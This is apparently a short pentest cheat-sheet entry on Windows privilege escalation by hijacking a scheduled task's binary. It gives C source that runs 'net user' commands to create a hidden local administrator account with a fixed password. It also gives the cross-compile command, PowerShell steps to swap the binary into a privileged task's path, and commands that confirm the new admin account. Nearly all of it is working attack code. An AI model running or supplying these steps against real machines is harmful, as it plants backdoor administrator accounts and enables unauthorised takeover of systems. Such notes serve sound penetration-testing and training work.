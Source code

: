 # Scheduled Tasks

Used when we have write privileges over a binary ran by a task owned by a privileged user.

**adduser.c**

```c
#include <stdlib.h>

int main ()
{
  int i;
  i = system ("net user mojo Password123! /add");
  i = system ("net localgroup administrators mojo /add");
  return 0;
}
```

```bash
# Compile
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

```powershell
mv task_path\privileged_binary.exe backups\privileged_binary.exe.bak
mv adduser.exe task_path\privileged_binary.exe
```

Then after a minute we can check and see that our new user has been created!

```powershell
Get-LocalUser
# mojo is visible
Get-LocalGroupMember Administrators
# mojo is visible
```
